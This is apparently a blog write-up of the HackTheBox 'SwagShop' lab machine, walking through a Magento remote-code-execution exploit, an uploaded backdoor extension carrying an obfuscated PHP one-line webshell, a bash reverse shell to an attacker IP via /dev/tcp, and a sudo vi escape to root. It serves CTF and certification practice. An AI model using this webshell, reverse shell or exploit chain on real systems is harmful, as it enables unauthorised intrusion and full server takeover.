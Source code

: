 ```yaml
---
title: "HackTheBox - WriteUp 2"
date: 2019-05-13T22:20:40+08:00
description: "HackTheBox 练手"
featuredImage: "https://alicdn.kmahyyg.xyz/asset_files/aether/cat_tech.webp"
categories: ["tech"]
draft: false
displayInMenu: false
displayInList: true
dropCap: false
---
```


# SwagShop

## Reference

1. Check here for more details about linux command utils: https://gtfobins.github.io/
2. https://packetstormsecurity.com/files/133327
3. http://10.10.10.140/app/etc/local.xml
4. https://github.com/lavalamp-/LavaMagentoBD
5. https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
6. http://blog.checkpoint.com/2015/04/20/analyzing-magento-vulnerability/

## Step 1: NMAP

Opened Port: 80, 22.

Apache2 with Ubuntu 18.04, SSH Useless...

## Step 2: SearchSploit

> For OSCP Preparation: Use Searchsploit to search exploit-db.com and modify it to your case.
> Leave the metasploit alone.

```bash
$ searchsploit -m exploits/xml/webapps/37977.py
------------------------------------------------------------------------------------------------------------------------------------------------
 Exploit Title                                             |  Path (/opt/searchsploit/)
------------------------------------------------------------------------------------------------------------------------------------------------
Magento eCommerce - Remote Code Execution                  | exploits/xml/webapps/37977.py
------------------------------------------------------------------------------------------------------------------------------------------------
```

Found the RCE, next modify it. Maybe the creator want to let us know more about what's behind, he even not wrote correct URL rewrite in Apache.

```python
target = "http://10.10.10.140/"
target_url = target + "/index.php" + "/admin/Cms_Wysiwyg/directive/index/"
```

Why do I modify this file?  Check the last reference. 

Run the script and go to the admin panel to do the next step.

> NOTE: IF YOU MET 503 ERROR, SOMEONE MUST MODIFY THE `index.php` IN A WRONG WAY! RESET THE BOX!
> So, please be patient if you are a free user. Or just buy a VIP like what I do.

## Step 3: Normal User

Execute the Python Script. Use "forme:forme" to login `/downloader` administration extension panel.

Then, modify the webshell:

```bash
$ git clone https://github.com/lavalamp-/LavaMagentoBD
```

Go to the `LavaMagentoBD/Backdoor Code/app/code/community/Lavalamp/Connector/controllers/IndexController.php`, Open `AntSword`.

Insert the corresponding call URL to the `AntSword` and then generate an one-line shell like this:

```php
<?php $RQUC=create_function(chr(01306-01242).chr(786-671).str_rot13('b').base64_decode('bQ==').str_rot13('r'),chr(0x202-0x19d).str_rot13('i').chr(0x1149a/0x2da).chr(063030/0362).chr(01374-01324).str_rot13('$').chr(0x30d-0x29a).base64_decode('bw==').str_rot13('z').chr(0401-0234).chr(0x3488/0x148).chr(53985/915));$RQUC(base64_decode('MTk4N'.'TE5O0'.'BldkF'.'sKCRf'.''.chr(0233163/01647).str_rot13('R').chr(306-249).chr(990-906).chr(51600/600).''.''.chr(0134760/01250).chr(0x211-0x19d).chr(037260/0354).chr(0x6b30/0x118).base64_decode('MA==').''.'ZnZnh'.'0dl0p'.'OzU5N'.'TU1Nz'.'s='.''));?>
```

Don't forget the password the software gives you. Then make a `md5sum` of this php file, and change the corresponding value in the `LavaMagentoBD/Backdoor Code/package.xml`. Next, According the project readme, repack it and upload to the downloader panel. Now you have the reverse shell. Use AntSword as you pleased.

## Step 3: Before privilege escalation

After you get the reverse shell as www-data, just `cat /etc/passwd` to get the user `haris`, and next, `cat /home/haris/user.txt`, you get the normal user token.

Carefully check the `ls -alh /home/haris`, found `.sudo_as_administrator_successful` (something like), you know that you need to escalate with `sudo`.

## Step 4: Get interactive shell and escalate

Check GTFOBINS and machine, found Python3 with bash.

Use the following commands to get the interactive shell:

```bash
$ export RHOST=<YOUR IP>
$ nc -lp 14445
$ bash -c 'bash -i &>/dev/tcp/$RHOST/14445 0<&1'
$ python -c 'import pty; pty.spawn("/bin/bash")'
```

## Step 5: Escalate

Get the spawned interactive shell and run `sudo -l`, found:

```bash
$ sudo -l
root (NOPASSWD:ALL):/usr/bin/vi /var/www/html/*
```

**USE THE ABSOLUTE PATH** to get the root shell without any password and do the f*cking things you want:

```bash
$ sudo /usr/bin/vi /var/www/html/test.sh
```

Then `:!cat /root/root.txt` get the root token. 

Finished!

# Help

ON THE WAY...

